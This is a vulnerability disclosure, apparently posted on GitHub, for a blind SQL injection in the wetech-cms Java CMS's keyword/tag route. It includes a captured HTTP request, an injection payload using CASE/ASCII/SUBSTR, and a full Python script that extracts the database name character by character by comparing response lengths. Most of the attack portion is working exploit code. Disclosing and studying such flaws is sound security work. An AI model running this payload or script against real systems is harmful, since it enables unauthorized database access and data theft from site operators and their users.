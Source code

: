 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

wetech-cms-master\wetech-core\src\main\java\tech\wetech\cms\dao\TopicDao.java

![image-20241128204712241](vuln/wetech-cms/sql-1/img/image-20241128204712241-1732799189720-1.png)

​	By routing we are located to the tag retrieval function

![image-20241128205044185](vuln/wetech-cms/sql-1/img/image-20241128205044185-1732799189721-2.png)

​	and get the following data packet

```http
GET /keyword/1 HTTP/1.1
Host: 172.24.95.182:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.24.95.182:8888/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: collapase-nav=collapse-nav1; JSESSIONID=561775642554B23D11BFD032DEE33BB4
Connection: close
```

​	Construct payload:

```sql
1' or keyword like (case when ascii(substr(database(),1,1))=1 then 'a' else '' end) and keyword like '
```

​	So we have the following python script

```python
import requests
url="http://172.21.55.165:8888/keyword/1"
url1=url+"' or keyword like (case when ascii(substr(database(),1,1))=10 then 'a' else '' end) and keyword like '"#前十个字符串的10位false包
url2=url+"' or keyword like (case when ascii(substr(database(),1,1))=100 then 'a' else '' end) and keyword like '"#前十个字符串的100位false包
url1_1=url+"' or keyword like (case when ascii(substr(database(),10,1))=10 then 'a' else '' end) and keyword like '"#前一百个字符串的10位false包
url2_1=url+"' or keyword like (case when ascii(substr(database(),10,1))=100 then 'a' else '' end) and keyword like '"#前一百个字符串的100位false包
def req():
    req1 = requests.get(url1)#获取前十个字符串的100位false包
    req2 = requests.get(url2)#获取前十个字符串的100位false包
    req1_1 = requests.get(url1_1)#获取前一百个字符串的10位false包
    req2_1 = requests.get(url2_1)#获取前一百个字符串的100位false包
    r_len1 = len(req1.text)
    r_len2 = len(req2.text)
    r_len1_1 = len(req1_1.text)
    r_len2_1 = len(req2_1.text)
    for i in range(1,12):
        for k in range(32,127):
            payload="' or keyword like (case when ascii(substr(database(),{i},1))={k} then 'a' else '' end) and keyword like '".format(i=i,k=k)#SQL注入payload
            th_url = url + payload
            second = requests.get(th_url)
            s_len = len(second.text)
            if k < 100:
                if i < 10:
                    if s_len != r_len1:
                        print(chr(k), end='')
                        break
                else:
                    if s_len != r_len1_1:
                        print(chr(k), end='')
                        break
            else:
                if i < 10:
                    if s_len != r_len2:
                        print(chr(k), end='')
                        break
                else:
                    if s_len != r_len2_1:
                        print(chr(k), end='')
                        break
def main():
    req()

if __name__ == '__main__':
    main()
```

​	Successfully obtain the library name:

![image-20241127134337976](/image-20241127134337976-1732686251093-2-1732721872717-1-1732721891177-9-1732797677430-1-1732798458177-1-1732799189721-3.png)
